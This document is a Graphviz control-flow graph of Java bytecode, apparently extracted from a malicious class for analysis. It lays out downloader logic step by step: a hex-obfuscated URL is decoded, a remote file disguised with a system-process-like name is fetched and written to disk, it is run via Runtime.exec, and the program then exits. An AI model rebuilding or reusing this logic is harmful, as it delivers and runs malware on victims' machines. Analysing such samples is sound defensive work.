 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "fieldget <Java: java.lang.String[] JEIKF>"
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "store.r r42"
    "fieldget <Java: java.lang.String[] JEIKF>"->"store.r r42";
    "load.r r42"
    "store.r r42"->"load.r r42";
    "arraylength"
    "load.r r42"->"arraylength";
    "store.i i0"
    "arraylength"->"store.i i0";
    "push 0"
    "store.i i0"->"push 0";
    "store.i i2"
    "push 0"->"store.i i2";
    "load.i i2"
    "store.i i2"->"load.i i2";
    "load.i i0"
    "load.i i2"->"load.i i0";
    "ifcmpge.i load.r r0"
    "load.i i0"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r r42";
    "load.r r42"->"load.i i2";
    "arrayread.r"
    "load.i i2"->"arrayread.r";
    "store.r r1"
    "arrayread.r"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "ifnull inc.i i2 1"
    "load.r r1"->"ifnull inc.i i2 1";
    "new java.io.File"
    "ifnull inc.i i2 1"->"new java.io.File";
    "dup1.r"
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq inc.i i2 1"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq inc.i i2 1";
    "ifeq inc.i i2 1"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"load.r r1";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "load.r r1"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"arraywrite.r";
    "goto load.r r0"
    "arraywrite.r"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "ifnull push 0"
    "arrayread.r"->"ifnull push 0";
    "ifnull push 0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq push 0"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq push 0";
    "new java.io.FileOutputStream"
    "ifeq push 0"->"new java.io.FileOutputStream";
    "store.r i0"
    "new java.io.FileOutputStream"->"store.r i0";
    "load.r i0"
    "store.r i0"->"load.r i0";
    "load.r i0"->"load.r r0";
    "fieldget <Java: java.lang.String HDK>"
    "load.r r0"->"fieldget <Java: java.lang.String HDK>";
    "fieldget <Java: java.lang.String HDK>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r i0";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r i0"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "new java.net.URL"
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]7[>|<]4[>|<]6[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]2[>|<]e[>|<]6[>|<]3[>|<]7[>|<]a[>|<]2[>|<]f[>|<]6[>|<]e[>|<]6[>|<]5[>|<]7[>|<]7[>|<]2[>|<]f[>|<]7[>|<]3[>|<]6[>|<]3[>|<]7[>|<]6[>|<]6[>|<]8[>|<]6[>|<]f[>|<]7[>|<]3[>|<]7[>|<]4\""
    "load.r r0"->"push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]7[>|<]4[>|<]6[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]2[>|<]e[>|<]6[>|<]3[>|<]7[>|<]a[>|<]2[>|<]f[>|<]6[>|<]e[>|<]6[>|<]5[>|<]7[>|<]7[>|<]2[>|<]f[>|<]7[>|<]3[>|<]6[>|<]3[>|<]7[>|<]6[>|<]6[>|<]8[>|<]6[>|<]f[>|<]7[>|<]3[>|<]7[>|<]4\"";
    "virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>"
    "push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]7[>|<]4[>|<]6[>|<]f[>|<]6[>|<]3[>|<]6[>|<]1[>|<]6[>|<]d[>|<]2[>|<]e[>|<]6[>|<]3[>|<]7[>|<]a[>|<]2[>|<]f[>|<]6[>|<]e[>|<]6[>|<]5[>|<]7[>|<]7[>|<]2[>|<]f[>|<]7[>|<]3[>|<]6[>|<]3[>|<]7[>|<]6[>|<]6[>|<]8[>|<]6[>|<]f[>|<]7[>|<]3[>|<]7[>|<]4\""->"virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <Java: java.lang.String[] FCKME>"
    "load.r r0"->"fieldget <Java: java.lang.String[] FCKME>";
    "push 29"
    "fieldget <Java: java.lang.String[] FCKME>"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "push 0L"
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"push 0L";
    "push 16777216L"
    "push 0L"->"push 16777216L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 16777216L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r i0";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r i0"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <Java: java.lang.String HKD>"
    "load.r r0"->"fieldget <Java: java.lang.String HKD>";
    "fieldget <Java: java.lang.String HKD>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq push 0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq push 0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String HKD>";
    "fieldget <Java: java.lang.String HKD>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"ifnull push 0";
    "ifnull push 0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "goto goto return"
    "goto goto goto return"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "ifeq push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifeq push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "inc.i i2 1"
    "ifeq inc.i i2 1"->"inc.i i2 1";
    "goto load.i i2"
    "inc.i i2 1"->"goto load.i i2";
}
